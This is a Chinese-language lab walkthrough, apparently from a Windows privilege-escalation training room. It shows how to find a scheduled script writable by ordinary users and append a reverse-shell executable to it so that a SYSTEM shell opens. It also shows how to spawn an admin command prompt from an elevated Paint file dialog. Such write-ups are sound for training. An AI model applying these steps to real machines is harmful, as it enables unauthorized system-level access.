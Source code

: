 
### icacls 查權限
```
icacls C:\DevTools\CleanUp.ps1
```
比較奇怪的是這裡查出來是 讀/執行 權限
```
C:\DevTools\CleanUp.ps1 BUILTIN\Users:(M)
                        NT AUTHORITY\SYSTEM:(F)
                        BUILTIN\Administrators:(F)
                        WIN-QBA94KB3IOF\Administrator:(F)
                        NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)
                        BUILTIN\Users:(I)(RX)

```

於是我直接去查看檔案 屬性->安全性->進階 
查到 users組 是有 modify 的權限

* window 權限知識
https://www.cnblogs.com/milantgh/p/3617855.html
https://zhuanlan.zhihu.com/p/94705977





### echo 附加 reverse.exe

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

在 Kali 上啟動一個偵聽器，然後將一行附加到C:\DevTools\CleanUp.ps1 以運行您創建的 reverse.exe 可執行文件：


等待計劃任務(每分鐘)運行，這應該以 SYSTEM 身份觸發反向 shell。


## 不安全的 GUI 應用程序

### 啟動RDP會話：

```
rdesktop -u user -p password321 10.10.114.188

```
雙擊桌面上的“AdminPaint”快捷方式。運行後，tasklist發現 mspaint.exe 正在以管理員權限運行：

```
tasklist /V | findstr mspaint.exe

```
我們是普通權限 可以藉由這個管理員權限的打開的程式生出一個高權限shell


菜單 open ->目錄瀏覽輸入下方cmd 路徑
```
file://c:/windows/system32/cmd.exe
```
* 按 Enter 以生成以管理員權限運行的命令提示符。
* 不是按下open 按鈕 是直接enter就可
